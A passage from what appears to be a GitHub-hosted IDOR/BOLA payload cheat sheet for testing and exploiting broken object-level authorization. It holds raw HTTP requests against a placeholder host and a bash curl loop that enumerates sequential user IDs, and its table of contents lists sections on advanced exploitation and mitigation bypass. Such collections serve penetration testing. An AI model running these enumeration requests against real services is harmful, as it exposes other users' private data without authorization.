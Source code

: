 # Complete IDOR/BOLA (Insecure Direct Object Reference / Broken Object Level Authorization) Payloads

This document contains a comprehensive collection of IDOR/BOLA testing payloads and techniques for identifying and exploiting insecure direct object reference vulnerabilities.

## Table of Contents
1. [Basic IDOR Testing](#basic-idor-testing)
2. [Horizontal Escalation](#horizontal-escalation)
3. [Vertical Escalation](#vertical-escalation)
4. [Parameter Manipulation](#parameter-manipulation)
5. [HTTP Method Manipulation](#http-method-manipulation)
6. [Batch Requests](#batch-requests)
7. [GraphQL IDOR](#graphql-idor)
8. [API BOLA](#api-bola)
9. [Advanced Exploitation](#advanced-exploitation)
10. [Mitigation Bypass](#mitigation-bypass)

---

## Basic IDOR Testing

### Numeric ID Incrementation
```http
GET /api/user/1234 HTTP/1.1
Host: target.com
```

### UUID Manipulation
```http
GET /api/document/65e8baf0-efd3-4a9e-8f0a-12a3b456cd78 HTTP/1.1
Host: target.com
```

### Sequential ID Testing
```bash
# Bash script to test sequential IDs
for id in {1000..1010}; do
  curl -s "https://target.com/api/user/$id" | grep -q "Not Found" || echo "Found valid ID: $id"
done
```

---

## Horizontal Escalation

### User Profile Access
```http
GET /api/profile?user_id=5678 HTTP/1.1
Host: target.com
Authorization: Bearer <your_token>
```
